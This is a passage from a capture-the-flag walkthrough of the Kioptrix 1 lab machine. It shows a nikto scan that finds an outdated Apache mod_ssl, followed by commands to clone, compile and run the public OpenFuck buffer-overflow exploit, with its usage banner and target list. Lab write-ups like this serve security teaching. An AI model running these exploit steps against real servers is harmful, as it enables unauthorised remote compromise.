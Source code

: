 I accessed the web application running on port 80 through my browser but found nothing interesting.

![](https://cdn.ziomsec.com/kioptrix1/3.webp)

I then ran a scan using **nikto**. It revealed an outdated **Apache mod_ssl** version running on the server.

```bash
nikto -h http://TARGET
```

![](https://cdn.ziomsec.com/kioptrix1/4.webp)

I searched for any exploits for these versions and found the below repository:
- https://github.com/heltonWernik/OpenLuck

>A buffer overflow is a type of vulnerability that occurs when a program writes more data to a block of memory, or buffer, than it can hold. This extra data can overwrite adjacent memory, which can lead to unexpected behavior, crashes, or even allow an attacker to execute arbitrary code.

I downloaded the exploit locally,

```bash
#clone the repo
$ git clone https://github.com/heltonWernik/OpenFuck.git

#install dependency
$ apt-get install libssl-dev

#compile the code
$ cd OpenFuck
$ gcc OpenFuck.c -lcrypto

#run the exploit
$ ./a.out
*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./a.out target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
  

  Supported OffSet:
		.
		.
		.
        0x44 - RedHat Linux ?.? GENERIC (apache-1.3.12-1)
        0x45 - RedHat Linux TEST1 (apache-1.3.12-1)
        0x46 - RedHat Linux TEST2 (apache-1.3.12-1)
        0x47 - RedHat Linux GENERIC (marumbi) (apache-1.2.6-5)
        0x48 - RedHat Linux 4.2 (apache-1.1.3-3)
        0x49 - RedHat Linux 5.0 (apache-1.2.4-4)
        0x4a - RedHat Linux 5.1-Update (apache-1.2.6)
        0x4b - RedHat Linux 5.1 (apache-1.2.6-4)
        0x4c - RedHat Linux 5.2 (apache-1.3.3-1)
        0x4d - RedHat Linux 5.2-Update (apache-1.3.14-2.5.x)
```
